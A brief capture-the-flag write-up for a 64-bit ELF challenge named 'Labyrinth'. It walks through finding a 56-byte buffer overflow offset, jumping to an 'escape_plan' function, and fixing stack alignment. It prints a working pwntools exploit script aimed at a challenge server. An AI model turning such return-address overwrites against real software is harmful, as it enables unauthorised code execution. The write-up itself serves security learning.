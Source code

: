 # Labyrinth

We're given an 64-bit ELF called Labyrinth.

Firstly, i'll analyzed the program using `ida` to disassemble it. We can see a main function of this program.This program expects us to input `69` or `069` to get another user input.Otherwise, the profram will be exit.

![decompile](challenge/img/decompile.png)

#Find The Offset

Next, we'll check the buffer offset of this program.We can use `cyclic` in `pwngdb` to find the offset.

To overwrite the return address, we can fill the buffer with `56` byte followed by the destination address.We'll jump to `escape_plan` address cause it opens the flag.txt.

![offset](/img/offset.png)


payload :

```
from pwn import *

context.binary = elf = ELF("./labyrinth", checksec=False)


if args.LOCAL:
    p = process(elf.path)
else:
    p = remote('94.237.122.241', 52656)

gdb.attach(p, gdbscript='')

buffer = b"A" * 56
escape = elf.sym['escape_plan']

pay = buffer
pay += p64(escape)

p.sendlineafter(b">> ", b"69")
p.sendlineafter(b">> ", pay)

p.interactive()
```


When i run the payload, the program crashses annd stop at `movaps` intrunction, it's caleed the movaps issue. 

`When the source or destination operand is a memory operand, the operand must be aligned on a 16-byte (0x10) boundary or a general-protection exception`


```
```
pwndbg> x/i $rip
=> 0x70f22b677693:      movaps XMMWORD PTR [rsp+0x40],xmm0
pwndbg>
```
```

#Stack  Alignment Fix

In order to align our stack, we can add a `ret` address, or use the address after the push intruction of `escape_plan` function.

```
Dump of assembler code for function escape_plan:
   0x0000000000401255 <+0>:     push   rbp
   0x0000000000401256 <+1>:     mov    rbp,rsp   <== we can use this or use the ret address
   0x0000000000401259 <+4>:     sub    rsp,0x10
   0x000000000040125d <+8>:     mov    edi,0xa
```

Now, it'work and we got the flag.

[solver](sv.py)



